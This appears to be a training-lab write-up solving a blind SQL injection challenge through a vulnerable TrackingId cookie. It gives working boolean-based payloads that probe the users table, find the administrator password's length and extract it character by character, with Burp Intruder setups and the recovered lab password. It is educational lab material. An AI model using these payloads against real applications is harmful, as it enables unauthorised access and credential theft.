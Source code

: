 # Lab: Blind SQL injection with conditional responses
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Blind SQL injection
We don't have the typical possibility to inject statement like before. The websites uses a cookie `TrackingId` to show the "Welcome back" message at the top of the page:
![Welcome back](images/Blind_SQL_injection_with_conditional_responses.png)

From the description we know that this cookie is vulnerable to SQL injection. To make a use of this, we can inject statements in the value of the cookie, that create a conditional return value. If the value is true, the message will be shown. If it's false, it won't.

For example the following value will cause that the message isn't shown anymore:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='2
```

While the following meets the condition again and the message is shown:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='1
```

The serverside created SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' and '1'='2'
```

## Solution
The goal in this lab is to abuse the noted vulnerability to create a conditional statement and "guess" the administrator password over that way. If our guess is true, the "Welcome back" message is shown. If not, it's not shown.

### Information gathering
From the lab description we know that there is a table called 'Users' with an user called 'Administrator'. But if we don't have this information we can examine the database with the following statements. If the statements are true, the welcome message is shown.

Determine if there is a table called 'Users':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users LIMIT 1)='a
```

Check if there is a user called 'Administrator':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Guess the password length by increasing the number behind the '>':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
This can be done either by manually changing the number or using Burp Intruder to automate things up. The Intruder can be configured like the following:
| Positions | Payloads | Settings | Results |
| --------- | -------- | -------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_0.png) | ![Payloads](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_1.png) | ![Settings](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_2.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_3.png) |

In the results we see that the response for `LENGTH(password)>20)='a` won't give the welcome message. So our password is 20 characters long.

### Payload (Sniper)
Using the same approach, we can test the password character wise for matching to specific characters. From the description we know that only lowercase and alphanumeric are used. Because Burp CE has no predefined lists for Intruder, you can either create a list with the character sets and imported it or use the _Brute Forcer_ payload type. The statement we will use looks like the following:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

The corresponding SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
```

Intruder will iterate the character through the given list. If there is a match, we will check the next char by adjusting the payload:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

The configuration of Intruder looks like the following:
| Positions | Payloads | Results |
| --------- | -------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_0.png) | ![Payloads](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_1.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_2.png) |

We will find the password of the administrator: `6718hmev95qbvnbglc8o`

Logging in with those credentials solves this lab.

### Payload (Cluster Bomb)
With Burp Intruder we can automate the previous step further. With the attack type _Cluster Bomb_ we can save us the part of adjusting the statement manually.

To do so we set the type to _Cluster Bomb_ and use the following statement:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```

For the first sector we use the payload type _Numbers_ and for the second the type _Brute Forcer_:
| Positions | Payload Numbers | Payload Brute Forcer | Results |
| --------- | --------------- | -------------------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_0.png) | ![Payload Numbers](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_1.png) | ![Payload Brute Forcer](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_2.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_3.png) |

This setup will test for every position of the password every character from the set. Sorting or filtering the results will show us the correct character for each position.

_Keep in mind that with Burp CE the Cluster Bomb attack will take a lot more time than it would in the Premium Edition._
